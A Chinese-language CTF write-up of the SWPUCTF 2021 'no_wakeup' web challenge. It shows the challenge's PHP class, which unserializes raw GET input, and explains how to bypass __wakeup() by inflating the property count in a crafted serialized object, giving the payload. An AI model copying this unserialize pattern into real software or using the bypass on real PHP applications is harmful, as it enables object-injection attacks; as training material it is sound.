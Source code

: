 ```yaml
---
title: SWPUCTF 2021 新生赛 no_wakeup
description: 高中时期在NSSCTF上刷题的题解
author: lamaper
date: 2022-08-09 20:12:00 +0800
categories: [Cyber Security]
tags: [ctf, web, php]
math: true
mermaid: true
toc: true 
---
```


# [SWPUCTF 2021 新生赛]no_wakeup lamaper的WriteUp

### 知识点：反序列化、__weakup()绕过

进入题目发现源代码
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");
class HaHaHa{
        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }
$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
?>
```
在29行程序调用反序列化方法时，会自动执行__weakup()函数，而显然weakup方法会加密上传的序列化参数中的passwd，而sha1是不可逆加密算法，目前也没有合适的sha1碰撞的方式，故考虑到绕过__weakup()函数；

php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup(); 因而先构造
```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus);
```
得到
```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
修改得到
```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
上传即可